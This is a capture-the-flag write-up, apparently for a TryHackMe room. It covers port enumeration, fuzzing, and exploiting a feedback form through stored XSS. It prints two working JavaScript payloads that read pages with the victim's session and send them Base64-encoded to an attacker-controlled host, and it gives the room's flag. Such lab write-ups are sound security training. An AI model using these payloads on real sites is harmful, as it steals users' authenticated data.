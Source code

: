 ﻿# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22 | ssh |
| 8080 | http |

We got two open ports, `ssh` and `http` on port `8080`, let's take a look at the website:

![Pasted image 20241202124915.png](../../IMAGES/Pasted%20image%2020241202124915.png)

Let's check source code:


![Pasted image 20241202124936.png](../../IMAGES/Pasted%20image%2020241202124936.png)

Nothing useful, let's try to fuzz in order to find anything useful:



## FUZZING
---

![Pasted image 20241202125736.png](../../IMAGES/Pasted%20image%2020241202125736.png)

Found a `/view_feedbacK` directory, it has status code `401` which means we are not authorized to read it, so, we need to be able to perform some sort of privilege escalation to be able to read it.

# RECONNAISSANCE
---
if we take a look at the feedback, we are able to see the following:

![Pasted image 20241202130251.png](../../IMAGES/Pasted%20image%2020241202130251.png)

seems like a simple feedback form, but I believe this is vulnerable to XSS, so, let's try to craft a payload to get the contents of the home page to check if it's either vulnerable or not.




# EXPLOITATION
---


As said, this will be our payload:

```js
<script> 
fetch("/", {method:'GET',mode:'no-cors',credentials:'same-origin'}) 
.then(response => response.text()) 
.then(text => { 
fetch('http://IP:80/' + btoa(text), {mode:'no-cors'}); 
}); 
</script>
```

```ad-note
#### Breakdown of the code:

- `fetch("/")`: Requests the home page's content.
- `btoa(text)`: Encodes the content in Base64 to safely transmit it.
- `fetch('http://your_ip:80')`: Sends the encoded data to your server.
```

Let's start a python server and check if it works:

![Pasted image 20241202130611.png](../../IMAGES/Pasted%20image%2020241202130611.png)

After sending the payload, we receive the contents of the page we have requested, in this case, home page, if we try decoding that, we get the following:


![Pasted image 20241202130742.png](../../IMAGES/Pasted%20image%2020241202130742.png)


As shown, we successfully exploited [XSS](../../Bug%20Bounty/Vulnerabilities/SERVER%20SIDE%20VULNERABILITIES/CROSS%20SITE%20SCRIPTING/CROSS%20SITE%20SCRIPTING%20(XSS).md)and got the contents of the home page, right now, we can take other exploitations paths, such as trying to get a reverse shell and some other, to make this CTF simple, let's just use a payload that retrieves the contents of `http://10.10.133.79:8080/flag.txt`, since this is the file we want to read anyway.


# READING THE FILE
---


```js
<script> 
fetch("/flag.txt", {method:'GET',mode:'no-cors',credentials:'same-origin'}) 
.then(response => response.text()) 
.then(text => { 
fetch('http://10.6.34.159:9001/' + btoa(text), {mode:'no-cors'}); 
}); 
</script>
```

This payload does the same as the previous one, it just targets that `flag.txt` file, let's send it and get our base64 encoded flag:

![Pasted image 20241202131136.png](../../IMAGES/Pasted%20image%2020241202131136.png)

Nice, let's decode:

![Pasted image 20241202131156.png](../../IMAGES/Pasted%20image%2020241202131156.png)

We got the flag and finished the CTF, Gg!

```ad-hint

Flag: `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`
```


